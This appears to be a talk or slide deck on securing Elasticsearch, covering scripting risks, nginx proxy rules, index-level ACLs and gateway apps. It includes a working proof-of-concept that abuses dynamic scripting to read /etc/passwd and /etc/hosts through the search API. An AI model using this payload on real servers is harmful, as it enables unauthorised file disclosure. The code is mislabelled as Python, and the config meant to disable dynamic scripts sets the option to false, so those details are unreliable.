   ## Securing Elasticsearch


  ### Elasticsearch trusts you

  * There is no concept of a user
  * Out the box, systems that have access to port 9200 can basically do whatever they want
  * Do not allow direct access to port 9200


  ### Scripting

  * Elasticsearch provides robust scripting support
  * These scripts are run in a sandbox *as of 1.3.0*
  * Dynamic scripting is disabled by default *as of 1.4.3*
  * [Remote code execution is possible](http://blog.liftsecurity.io/2013/11/30/elasticsearch-command-execution-using-script)


  ### How to read a file system using dynamic scripts with Python

  ```python
  read_file = (filename) ->
    """
    import java.io.File;
    import java.util.Scanner;
    new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
    """

  # This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
  $ ->
    payload = {
      "size": 1,
      "query": {
        "filtered": {
          "query": {
            "match_all": {
            }
          }
        }
      },
      "script_fields": {}
    }

    for filename in ["/etc/hosts", "/etc/passwd"]
      payload["script_fields"][filename] = {"script": read_file(filename)}

    $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
      console.log(data)
      for hit in data["hits"]["hits"]
        for filename, contents of hit["fields"]
          document.write("<h2>#{filename}</h2>")
          for content in contents
            document.write("<pre>" + content + "</pre>")
          document.write("<hr>")
  ```


### Disabling dynamic scripts on older versions

```yaml
script.disable_dynamic: false
```


### Use preloaded scripts instead

```bash
$ cat config/scripts/scoring/recency_boost.groovy
(0.08 / ((3.16*10.power(-11)) * (now - doc['timestamp'].date.getMillis()).abs() + 0.05)) + 1.0
```

```json
{
  "script": "scoring_recency_boost",
  "params": {
    "now": 1386176910000
  }
}
 ```


### Segregate different tenants/users into separate indexes

* This allows you to create some high-level URL rules to eliminate cross-polination
* Some apis like multi-search, multi-get and bulk allow take indexes as URL parameters or in the request body
* Lock this down with `allow_explicit_index: false`


### Sample nginx proxy rules

```nginx
#
# Nginx proxy for Elasticsearch + Kibana
#
# In this setup, we are password protecting the saving of dashboards. You may
# wish to extend the password protection to all paths.
#
# Even though these paths are being called as the result of an ajax request, the
# browser will prompt for a username/password on the first request
#
# If you use this, you'll want to point config.js at http://FQDN:80/ instead of
# http://FQDN:9200
#
server {
  listen                *:80 ;

  server_name           kibana.myhost.org;
  access_log            /var/log/nginx/kibana.myhost.org.access.log;

  location / {
    root  /usr/share/kibana3;
    index  index.html  index.htm;
  }

  location ~ ^/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/_nodes$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_search$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_mapping {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }

  # Password protected end points
  location ~ ^/kibana-int/dashboard/.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
  location ~ ^/kibana-int/temp.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
}
```


### Include ACLs in document body

```json
{
  "title": "Elasticsearch in Action",
  "price": 34.99,
  "visible_to_groups": [
    "spantree",
    "strangeloop"
  ],
  "visible_to_users": [
    "george_smith",
    "jane_jones"
  ]
}
```


### Use filter aliases to enforce ACLs

```json
curl -XPOST 'http://localhost:9200/_aliases' -d '{
  "actions": [
    {
      "add": {
        "index": "books",
        "alias": "books_visible_to_group_spantree",
        "filter": {
          "term": { "visible_to_group": "spantree" }
        }
      }
    }
  ]
}'
```


### For more complex requirements, consider a middle tier gateway app

* When you need things like field-level access policies, consider writing a gateway app
* Prefer to use asynchronous, non-blocking frameworks like [Node.js](http://nodejs.org/), [Ratpack](http://www.ratpack.io/) or [Frank](https://github.com/panesofglass/frank).


### Pseudocode for a gateway app

```coffee
http.createServer (req, res) ->
  # Authenticate and get user context
  userContext = authenticateAndGetUserContext(req)
  if userContext
    http.request "#{esRoot}/{req.path}", (esResponse, json) ->
      if not userContext.shouldPriceBeVisible
        delete json.price
      res.writeHead esResponse.head
      res.write json
      res.end()
  else
    res.writeHead 401, 'Unauthorized access'
```


### (Completely speculative) future security features

* Dynamic scripts running in a sandbox?
* Pluggable authentication (via CAS, JAAS, etc)?
* Document-level security?
